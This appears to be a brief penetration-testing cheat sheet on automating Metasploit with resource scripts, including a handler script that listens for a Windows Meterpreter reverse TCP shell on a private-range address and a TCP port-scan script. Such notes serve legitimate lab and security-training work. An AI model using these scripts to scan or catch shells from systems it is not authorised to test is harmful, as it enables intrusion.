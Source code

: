# Automating With Resource Scripts

### Scripts prebuilt in kali

```bash
ls -al /usr/share/metasploit-framework/scripts/resource/
```

### Example:

#### Windows 64bit meterpreter shell

```bash
nano handler.rc
#script
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.1.100.11
set LPORT 9999
run
```

#### Portscan

```bash
nano portscan.sc
#script
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.1.100.11
run
```

### Usage

```bash
#from shell
msfconsole -r handler.rc
#from inside msfconsole
resource /home/kali/handler.rc
#to record all my previous command i input from msfconsole
makerc /home/kali/saved.rc
```
